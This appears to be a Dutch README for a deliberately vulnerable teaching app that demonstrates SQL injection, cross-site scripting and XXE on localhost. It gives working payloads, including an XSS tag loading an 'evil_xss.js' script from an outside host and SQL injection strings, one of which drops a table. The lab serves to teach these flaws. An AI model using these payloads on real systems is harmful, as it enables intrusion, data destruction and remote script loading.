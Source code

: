 # OwaspVulnerabilities
<br>
In deze applicatie zijn drie vulnerabilities ingebouwd.<br>
<br>
Injection (sql en code)<br>
Cross site scripting XSS<br>
XML External Entity (XXE) Processing<br>
<br>
Injection (sql en code)<br>
Na het starten van de applicatie is er een H2 database met url: http://localhost:9080/h2-console/<br>
User is sa, password is leeg.<br>
<br>
Tabellen User en Article<br>
User wordt gebruikt om 'in te loggen' - SQL injectie<br>
Article wordt gebruikt om code te injecteren.<br>
<br>
Testen gaat via Swagger (http://localhost:9080/swagger-ui.html#/) en browser. Er is geen frontend.<br>
<br>
Code injectie <br>
<br>
Voeg middels 'addArticle' van de ArticleController een article toe met in het veld description: <br>
<code><script>alert('Hello')</script></code><br>
(id mag leeg blijven)<br>
In de response is het aangemaakte article te zien met het id.<br>
Gebruik dit id in 'getArticleById' om het article op te halen.<br>
Er gebeurt verder niets maar de code is te zien in de response.<br>
Kopieer de 'Request url' onder het Curl stukje (bijv. http://localhost:9080/api/article/getArticleById?id=2).<br>
Gebruik de url in de browser.<br>
Er is nu een alert melding te zien.<br>
Voek een nieuwe article toe met in het veld description:<br>
<code><script src='http://home.kpn.nl/vuwu57lx/evil_xss.js'></script></code><br>
Gebruik van de url van dit nieuwe article (bijv. http://localhost:9080/api/article/getArticleById?id=3)<br>
geeft nu een melding in de browser m.b.t. encrypted files<br>

---------------------------------------------------------------------------------------------------------<br>
SQL injectie<br>
<br>
De methode authenticate van de AuthenticationController wordt gebruikt om in te loggen.<br>
Bij verkeerde credentials wordt status 401 teruggegeven en een leeg user object.<br>
Bij de juiste credentials wordt een gevuld user object teruggegeven<br>
user nikki@info.org<br>
pw   S&cr#t<br>
In de logging is de gebruikte sql query te zien:<br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = 'S&cr#t'<br>
Het is nu de kunst om iets in het password in te vullen zodat een geldige query ontstaat die resultaat oplevert.<br>
Een voorbeeld is: ' or '1' = '1<br>
De query wordt dan:<br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'<br>
Het gevulde user object is dan te zien in de response<br>
Dit: ' or '1' = '1'   ; drop table article; --<br>
geeft query <br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'   ; drop table article; --'<br>
en heeft tot gevolg dat tabel article is verwijderd.<br>
<br>
---------------------------------------------------------------------------------------------------------<br>
XML External Entity (XXE) Processing<br>

In een XML bestand is het mogelijk om een DOCTYPE element op te nemen.<br>
Hierin kunnen uitvoerbare instructies staan<br>
XML parsers voeren deze instructies uit, afhankelijk van bepaalde settings.<br>
<br>
De RegisterXxeAttackController logt een dergelijke 'aanval'.<br>
Upload in Swagger via de XmlUploadController bestand ...src/main/resources/aanvraag.xml<br>
Het gevulde object wordt getoond in de response.<br>
Doe hetzelfde met ...src/main/resources/xxeaanvraag.xml<br>
In de logging is nu te zien:<br>
RegisterXxeAttackController      : Http request in !DOCTYPE element in xml is executed!<br>
<br>
<br>
N.B.<br>
In de pom staan dependencies voor jaxb omdat deze geen deel meer uitmaken van Java versies > 8<br>
Het kan zijn dat hier, afhankelijk van de gebruikte Java versie, problemen mee ontstaan.<br>




